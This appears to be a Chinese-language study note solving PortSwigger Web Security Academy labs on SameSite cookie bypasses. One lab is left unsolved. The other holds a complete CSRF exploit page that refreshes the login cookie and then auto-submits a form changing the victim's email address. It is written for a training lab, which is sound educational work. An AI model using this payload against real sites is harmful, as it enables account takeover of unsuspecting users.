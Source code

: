 ## Lab: SameSite Strict bypass via sibling domain

| Dimension | Description                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-restrictions-via-vulnerable-sibling-domains |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain                  |

這題需要 [WebSocket](./websocket.md) 的知識，目前我還沒深入研究，之後再來解



## Lab: SameSite Lax bypass via cookie refresh

| Dimension | Description                                                                                                                             |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-lax-restrictions-with-newly-issued-cookies |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh                 |

登入的第一步驟，會到 `/social-login`，並且 html 裡面有

```html
<meta
  http-equiv="refresh"
  content="3;url=https://oauth-0ac500cf049af0fc80ac011d022a005f.oauth-server.net/auth?client_id=j5q2luyudapotawqptouf&redirect_uri=https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email"
/>
```

登入完，就會看到 cookie.session 刷新，有 2 分鐘的生效期，我們可以利用這個生效期去修改 email

在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head></head>
  <body>
    <form
      action="https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="wiener4@normal-user.net"
      />
    </form>
    <script>
      window.onclick = () => {
        window.open(
          "https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/social-login",
        );
        setTimeout(() => document.forms[0].submit());
      };
    </script>
  </body>
</html>
```

